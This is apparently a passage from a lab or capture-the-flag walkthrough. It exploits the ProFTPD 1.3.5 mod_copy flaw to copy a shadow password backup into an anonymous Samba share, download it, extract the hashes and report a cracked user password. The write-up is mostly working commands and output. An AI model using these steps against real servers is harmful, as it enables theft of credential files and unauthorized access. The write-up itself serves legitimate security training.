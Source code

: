 ### ProFTPD Enumeration
If we notice the version of the ProFTPD service is vulnerable to **File Copy**, as shown below:

```bash
root@kali:~$ searchsploit ProFTPD 1.3.5    
----------------------------------------------------------------------------- --------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- --------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                    | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                          | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                      | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                    | linux/remote/36742.txt
----------------------------------------------------------------------------- --------------------------
```

## Exploitation
### ProFTPD Service
Taking advantage of the fact that we can copy files via ftp, we will try to copy the **shadow.back** file to the samba **share** directory of aeolus, to later download this file to the attacking machine.

```bash
root@kali:~$ nc 192.168.179.136 21                    
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [192.168.179.136]
SITE CPFR /var/backups/shadow.bak
350 File or directory exists, ready for destination name
SITE CPTO /home/aeolus/share/shadow.back
250 Copy successful
quit
221 Goodbye.
root@kali:~$ smbclient //192.168.179.136/anonymous -U "" -N
Try "help" to get a list of possible commands.
smb: \> get shadow.back
getting file \shadow.back of size 1173 as shadow.back (54.5 KiloBytes/sec) (average 54.5 KiloBytes/sec)
smb: \> quit
```
After the **shadow.back** file has been downloaded, I filtered the password hashes to the systemHashes.txt file.

```bash
root@kali:~$ grep -oP '\$6[^:]*' shadow.back > systemHashes.txt
```
Then I proceed to crack the password hashes and after a few minutes I had the password **sergioteamo** for the **aeolus** user.
